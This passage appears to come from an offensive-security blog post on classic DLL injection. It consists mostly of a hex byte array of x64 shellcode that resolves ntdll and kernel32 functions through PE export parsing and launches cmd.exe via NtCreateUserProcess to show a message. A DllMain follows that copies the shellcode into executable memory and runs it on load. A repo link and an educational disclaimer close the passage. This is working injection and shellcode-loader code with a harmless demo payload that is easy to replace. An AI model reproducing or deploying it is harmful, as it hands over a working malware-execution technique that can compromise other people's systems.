	0x80, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0x78, 0x01, 0x00, 0x00, 0xEB,
	0x25, 0x48, 0x8B, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x00, 0x48,
	0x89, 0x85, 0x38, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x30, 0x01, 0x00,
	0x00, 0x48, 0x39, 0x85, 0x38, 0x01, 0x00, 0x00, 0x0F, 0x85, 0xF9, 0xFC,
	0xFF, 0xFF, 0x48, 0x8B, 0x85, 0x50, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x40,
	0x30, 0x48, 0x89, 0x85, 0x98, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85, 0x98,
	0x01, 0x00, 0x00, 0x48, 0x63, 0x40, 0x3C, 0x48, 0x8B, 0x8D, 0x98, 0x01,
	0x00, 0x00, 0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85, 0xA0,
	0x01, 0x00, 0x00, 0xB8, 0x08, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x48, 0x8B, 0x8D, 0xA0, 0x01, 0x00, 0x00, 0x8B, 0x84, 0x01, 0x88, 0x00,
	0x00, 0x00, 0x48, 0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x03, 0xC8,
	0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85, 0xA8, 0x01, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0xA8, 0x01, 0x00, 0x00, 0x8B, 0x40, 0x20, 0x48, 0x8B, 0x8D, 0x98,
	0x01, 0x00, 0x00, 0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85,
	0xB0, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x47, 0x65, 0x74, 0x50, 0x72, 0x6F,
	0x63, 0x41, 0x48, 0x89, 0x45, 0x10, 0xC7, 0x85, 0xB8, 0x01, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x00, 0x48, 0x63, 0x85, 0xB8, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x8D, 0xB0, 0x01, 0x00, 0x00, 0x48, 0x63, 0x04, 0x81, 0x48, 0x8B,
	0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x55, 0x10, 0x48, 0x39, 0x14,
	0x01, 0x74, 0x10, 0x8B, 0x85, 0xB8, 0x01, 0x00, 0x00, 0xFF, 0xC0, 0x89,
	0x85, 0xB8, 0x01, 0x00, 0x00, 0xEB, 0xCD, 0x48, 0x8B, 0x85, 0xA8, 0x01,
	0x00, 0x00, 0x8B, 0x40, 0x24, 0x48, 0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00,
	0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1, 0x48, 0x89, 0x85, 0xC0, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xA8, 0x01, 0x00, 0x00, 0x8B, 0x40, 0x1C, 0x48,
	0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x03, 0xC8, 0x48, 0x8B, 0xC1,
	0x48, 0x89, 0x85, 0xC8, 0x01, 0x00, 0x00, 0x48, 0x63, 0x85, 0xB8, 0x01,
	0x00, 0x00, 0x48, 0x8B, 0x8D, 0xC0, 0x01, 0x00, 0x00, 0x48, 0x0F, 0xBF,
	0x04, 0x41, 0x48, 0x8B, 0x8D, 0xC8, 0x01, 0x00, 0x00, 0x48, 0x63, 0x04,
	0x81, 0x48, 0x8B, 0x8D, 0x98, 0x01, 0x00, 0x00, 0x48, 0x03, 0xC8, 0x48,
	0x8B, 0xC1, 0x48, 0x89, 0x85, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x8B, 0x85,
	0x98, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xD8, 0x01, 0x00, 0x00, 0x48,
	0x8B, 0x85, 0x78, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xE0, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xE0, 0x01, 0x00, 0x00, 0xC7, 0x80, 0x14, 0x01,
	0x00, 0x00, 0xFF, 0xFF, 0xFF, 0xFF, 0x48, 0x8B, 0x85, 0x78, 0x01, 0x00,
	0x00, 0x48, 0x8B, 0x40, 0x30, 0x48, 0x89, 0x85, 0xE8, 0x01, 0x00, 0x00,
	0x48, 0xB8, 0x4C, 0x6F, 0x61, 0x64, 0x4C, 0x69, 0x62, 0x72, 0x48, 0x89,
	0x45, 0x10, 0x48, 0xC7, 0x45, 0x18, 0x61, 0x72, 0x79, 0x41, 0x48, 0x8D,
	0x55, 0x10, 0x48, 0x8B, 0x8D, 0xD8, 0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0,
	0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xF0, 0x01, 0x00, 0x00, 0x48, 0xB8,
	0x52, 0x74, 0x6C, 0x41, 0x6C, 0x6C, 0x6F, 0x63, 0x48, 0x89, 0x45, 0x10,
	0x48, 0xB8, 0x61, 0x74, 0x65, 0x48, 0x65, 0x61, 0x70, 0x00, 0x48, 0x89,
	0x45, 0x18, 0x48, 0x8D, 0x55, 0x10, 0x48, 0x8B, 0x8D, 0xE8, 0x01, 0x00,
	0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xF8, 0x01,
	0x00, 0x00, 0x48, 0xB8, 0x52, 0x74, 0x6C, 0x43, 0x72, 0x65, 0x61, 0x74,
	0x48, 0x89, 0x45, 0x38, 0x48, 0xB8, 0x65, 0x50, 0x72, 0x6F, 0x63, 0x65,
	0x73, 0x73, 0x48, 0x89, 0x45, 0x40, 0x48, 0xB8, 0x50, 0x61, 0x72, 0x61,
	0x6D, 0x65, 0x74, 0x65, 0x48, 0x89, 0x45, 0x48, 0x48, 0xC7, 0x45, 0x50,
	0x72, 0x73, 0x45, 0x78, 0x48, 0x8D, 0x55, 0x38, 0x48, 0x8B, 0x8D, 0xE8,
	0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85,
	0x00, 0x02, 0x00, 0x00, 0x48, 0xB8, 0x4E, 0x74, 0x43, 0x72, 0x65, 0x61,
	0x74, 0x65, 0x48, 0x89, 0x45, 0x20, 0x48, 0xB8, 0x55, 0x73, 0x65, 0x72,
	0x50, 0x72, 0x6F, 0x63, 0x48, 0x89, 0x45, 0x28, 0x48, 0xC7, 0x45, 0x30,
	0x65, 0x73, 0x73, 0x00, 0x48, 0x8D, 0x55, 0x20, 0x48, 0x8B, 0x8D, 0xE8,
	0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85,
	0x08, 0x02, 0x00, 0x00, 0x48, 0xB8, 0x52, 0x74, 0x6C, 0x49, 0x6E, 0x69,
	0x74, 0x55, 0x48, 0x89, 0x45, 0x20, 0x48, 0xB8, 0x6E, 0x69, 0x63, 0x6F,
	0x64, 0x65, 0x53, 0x74, 0x48, 0x89, 0x45, 0x28, 0x48, 0xC7, 0x45, 0x30,
	0x72, 0x69, 0x6E, 0x67, 0x48, 0x8D, 0x55, 0x20, 0x48, 0x8B, 0x8D, 0xE8,
	0x01, 0x00, 0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85,
	0x10, 0x02, 0x00, 0x00, 0x48, 0xB8, 0x5C, 0x00, 0x3F, 0x00, 0x3F, 0x00,
	0x5C, 0x00, 0x48, 0x89, 0x45, 0x60, 0x48, 0xB8, 0x43, 0x00, 0x3A, 0x00,
	0x5C, 0x00, 0x57, 0x00, 0x48, 0x89, 0x45, 0x68, 0x48, 0xB8, 0x69, 0x00,
	0x6E, 0x00, 0x64, 0x00, 0x6F, 0x00, 0x48, 0x89, 0x45, 0x70, 0x48, 0xB8,
	0x77, 0x00, 0x73, 0x00, 0x5C, 0x00, 0x53, 0x00, 0x48, 0x89, 0x45, 0x78,
	0x48, 0xB8, 0x79, 0x00, 0x73, 0x00, 0x74, 0x00, 0x65, 0x00, 0x48, 0x89,
	0x85, 0x80, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x6D, 0x00, 0x33, 0x00, 0x32,
	0x00, 0x5C, 0x00, 0x48, 0x89, 0x85, 0x88, 0x00, 0x00, 0x00, 0x48, 0xB8,
	0x63, 0x00, 0x6D, 0x00, 0x64, 0x00, 0x2E, 0x00, 0x48, 0x89, 0x85, 0x90,
	0x00, 0x00, 0x00, 0x48, 0xB8, 0x65, 0x00, 0x78, 0x00, 0x65, 0x00, 0x00,
	0x00, 0x48, 0x89, 0x85, 0x98, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x55, 0x60,
	0x48, 0x8D, 0x8D, 0x18, 0x02, 0x00, 0x00, 0xFF, 0x95, 0x10, 0x02, 0x00,
	0x00, 0x48, 0xB8, 0x5C, 0x00, 0x3F, 0x00, 0x3F, 0x00, 0x5C, 0x00, 0x48,
	0x89, 0x85, 0xA0, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x43, 0x00, 0x3A, 0x00,
	0x5C, 0x00, 0x57, 0x00, 0x48, 0x89, 0x85, 0xA8, 0x00, 0x00, 0x00, 0x48,
	0xB8, 0x69, 0x00, 0x6E, 0x00, 0x64, 0x00, 0x6F, 0x00, 0x48, 0x89, 0x85,
	0xB0, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x77, 0x00, 0x73, 0x00, 0x5C, 0x00,
	0x53, 0x00, 0x48, 0x89, 0x85, 0xB8, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x79,
	0x00, 0x73, 0x00, 0x74, 0x00, 0x65, 0x00, 0x48, 0x89, 0x85, 0xC0, 0x00,
	0x00, 0x00, 0x48, 0xB8, 0x6D, 0x00, 0x33, 0x00, 0x32, 0x00, 0x5C, 0x00,
	0x48, 0x89, 0x85, 0xC8, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x63, 0x00, 0x6D,
	0x00, 0x64, 0x00, 0x2E, 0x00, 0x48, 0x89, 0x85, 0xD0, 0x00, 0x00, 0x00,
	0x48, 0xB8, 0x65, 0x00, 0x78, 0x00, 0x65, 0x00, 0x20, 0x00, 0x48, 0x89,
	0x85, 0xD8, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x2F, 0x00, 0x6B, 0x00, 0x20,
	0x00, 0x6D, 0x00, 0x48, 0x89, 0x85, 0xE0, 0x00, 0x00, 0x00, 0x48, 0xB8,
	0x73, 0x00, 0x67, 0x00, 0x20, 0x00, 0x2A, 0x00, 0x48, 0x89, 0x85, 0xE8,
	0x00, 0x00, 0x00, 0x48, 0xB8, 0x20, 0x00, 0x48, 0x00, 0x65, 0x00, 0x6C,
	0x00, 0x48, 0x89, 0x85, 0xF0, 0x00, 0x00, 0x00, 0x48, 0xB8, 0x6C, 0x00,
	0x6F, 0x00, 0x20, 0x00, 0x66, 0x00, 0x48, 0x89, 0x85, 0xF8, 0x00, 0x00,
	0x00, 0x48, 0xB8, 0x72, 0x00, 0x6F, 0x00, 0x6D, 0x00, 0x20, 0x00, 0x48,
	0x89, 0x85, 0x00, 0x01, 0x00, 0x00, 0x48, 0xB8, 0xF4, 0x00, 0x66, 0x00,
	0x66, 0x00, 0x65, 0x00, 0x48, 0x89, 0x85, 0x08, 0x01, 0x00, 0x00, 0x48,
	0xB8, 0x6E, 0x00, 0x73, 0x00, 0x69, 0x00, 0x76, 0x00, 0x48, 0x89, 0x85,
	0x10, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x65, 0x00, 0x20, 0x00, 0x50, 0x00,
	0x61, 0x00, 0x48, 0x89, 0x85, 0x18, 0x01, 0x00, 0x00, 0x48, 0xB8, 0x6E,
	0x00, 0x64, 0x00, 0x61, 0x00, 0x00, 0x00, 0x48, 0x89, 0x85, 0x20, 0x01,
	0x00, 0x00, 0x48, 0xC7, 0x85, 0x28, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x48, 0x8D, 0x95, 0xA0, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x28,
	0x02, 0x00, 0x00, 0xFF, 0x95, 0x10, 0x02, 0x00, 0x00, 0x48, 0xC7, 0x85,
	0x38, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xC7, 0x44, 0x24, 0x50,
	0x01, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x48, 0x00, 0x00, 0x00,
	0x00, 0x48, 0xC7, 0x44, 0x24, 0x40, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7,
	0x44, 0x24, 0x38, 0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x30,
	0x00, 0x00, 0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x28, 0x00, 0x00, 0x00,
	0x00, 0x48, 0x8D, 0x85, 0x28, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24,
	0x20, 0x45, 0x33, 0xC9, 0x45, 0x33, 0xC0, 0x48, 0x8D, 0x95, 0x18, 0x02,
	0x00, 0x00, 0x48, 0x8D, 0x8D, 0x38, 0x02, 0x00, 0x00, 0xFF, 0x95, 0x00,
	0x02, 0x00, 0x00, 0x48, 0x8D, 0x85, 0x40, 0x02, 0x00, 0x00, 0x48, 0x8B,
	0xF8, 0x33, 0xC0, 0xB9, 0x58, 0x00, 0x00, 0x00, 0xF3, 0xAA, 0x48, 0xC7,
	0x85, 0x40, 0x02, 0x00, 0x00, 0x58, 0x00, 0x00, 0x00, 0xC7, 0x85, 0x48,
	0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0xB8, 0x08, 0x00, 0x00, 0x00,
	0x48, 0x6B, 0xC0, 0x01, 0x41, 0xB8, 0x20, 0x00, 0x00, 0x00, 0xBA, 0x08,
	0x00, 0x00, 0x00, 0x48, 0x8B, 0x4D, 0x00, 0x48, 0x8B, 0x4C, 0x01, 0x28,
	0xFF, 0x95, 0xF8, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xA0, 0x02, 0x00,
	0x00, 0x48, 0x8B, 0x85, 0xA0, 0x02, 0x00, 0x00, 0x48, 0xC7, 0x00, 0x28,
	0x00, 0x00, 0x00, 0xB8, 0x20, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x48, 0x8B, 0x8D, 0xA0, 0x02, 0x00, 0x00, 0xC7, 0x44, 0x01, 0x08, 0x05,
	0x00, 0x02, 0x00, 0xB8, 0x20, 0x00, 0x00, 0x00, 0x48, 0x6B, 0xC0, 0x00,
	0x0F, 0xB7, 0x8D, 0x18, 0x02, 0x00, 0x00, 0x48, 0x8B, 0x95, 0xA0, 0x02,
	0x00, 0x00, 0x48, 0x89, 0x4C, 0x02, 0x10, 0xB8, 0x20, 0x00, 0x00, 0x00,
	0x48, 0x6B, 0xC0, 0x00, 0x48, 0x8B, 0x8D, 0xA0, 0x02, 0x00, 0x00, 0x48,
	0x8B, 0x95, 0x20, 0x02, 0x00, 0x00, 0x48, 0x89, 0x54, 0x01, 0x18, 0x48,
	0xC7, 0x85, 0xB0, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8B,
	0x85, 0xA0, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x50, 0x48, 0x8D,
	0x85, 0x40, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x48, 0x48, 0x8B,
	0x85, 0x38, 0x02, 0x00, 0x00, 0x48, 0x89, 0x44, 0x24, 0x40, 0xC7, 0x44,
	0x24, 0x38, 0x00, 0x00, 0x00, 0x00, 0xC7, 0x44, 0x24, 0x30, 0x00, 0x00,
	0x00, 0x00, 0x48, 0xC7, 0x44, 0x24, 0x28, 0x00, 0x00, 0x00, 0x00, 0x48,
	0xC7, 0x44, 0x24, 0x20, 0x00, 0x00, 0x00, 0x00, 0x41, 0xB9, 0xFF, 0xFF,
	0x1F, 0x00, 0x41, 0xB8, 0xFF, 0xFF, 0x1F, 0x00, 0x48, 0x8D, 0x95, 0xB0,
	0x02, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0xA8, 0x02, 0x00, 0x00, 0xFF, 0x95,
	0x08, 0x02, 0x00, 0x00, 0x89, 0x85, 0xB8, 0x02, 0x00, 0x00, 0x48, 0xB8,
	0x4E, 0x74, 0x53, 0x75, 0x73, 0x70, 0x65, 0x6E, 0x48, 0x89, 0x45, 0x10,
	0x48, 0xB8, 0x64, 0x54, 0x68, 0x72, 0x65, 0x61, 0x64, 0x00, 0x48, 0x89,
	0x45, 0x18, 0x48, 0x8D, 0x55, 0x10, 0x48, 0x8B, 0x8D, 0xE8, 0x01, 0x00,
	0x00, 0xFF, 0x95, 0xD0, 0x01, 0x00, 0x00, 0x48, 0x89, 0x85, 0xC0, 0x02,
	0x00, 0x00, 0x33, 0xD2, 0x48, 0xC7, 0xC1, 0xFE, 0xFF, 0xFF, 0xFF, 0xFF,
	0x95, 0xC0, 0x02, 0x00, 0x00, 0x48, 0x8D, 0xA5, 0x58, 0x03, 0x00, 0x00,
	0x5F, 0x5D, 0xC3 };

	void *exec = VirtualAlloc(0, sizeof sll, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, sll, sizeof sll);
	((void(*)())exec)();

    return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {

	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		Go();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}

```

## Demonstration


For GitHub-Repo Click Here: [Offensive-Panda/ProcessInjectionTechniques](https://github.com/Offensive-Panda/ProcessInjectionTechniques/tree/main/Classic_DLL_Injection/Classic_DLL_Injection)

### Disclaimer
The content provided on this series is for educational and informational purposes only. It is intended to help users understand cybersecurity concepts and techniques for improving security defenses!
